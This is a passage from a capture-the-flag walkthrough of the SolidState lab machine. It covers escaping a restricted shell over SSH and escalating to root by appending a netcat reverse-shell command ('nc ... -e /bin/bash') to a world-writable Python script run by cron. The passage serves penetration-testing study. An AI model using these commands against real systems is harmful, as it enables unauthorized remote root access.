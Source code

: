 To bypass the jailed shell, we type **bash -i** to the SSH command.

```console
root@kali:~$ ssh -l mindy 192.168.179.185 "bash -i"                          
mindy@192.168.179.185's password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```

Now we can run any system command, a python script was found in the **/opt** directory, probably a cron job is running this file.

```console
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

## Privilege Escalation
### Cron Job

We add the following instruction to the end of the **tmp.py** file, when the cron job executes the script, it will try to connect to my attacking machine, giving us a root shell.

```console
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ echo "os.system('nc 192.168.179.1 1337 -e /bin/bash')" >> tmp.py
```

We set up a netcat listener on port 1337, wait a moment and we have a root shell.

```console
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.185] 40466
script -qc /bin/bash /dev/null
root@solidstate:~# ls
ls
root.txt
root@solidstate:~# cat root.txt
cat root.txt
b4c9723a28899b1c45db281d99cc87c9
root@solidstate:~#
```
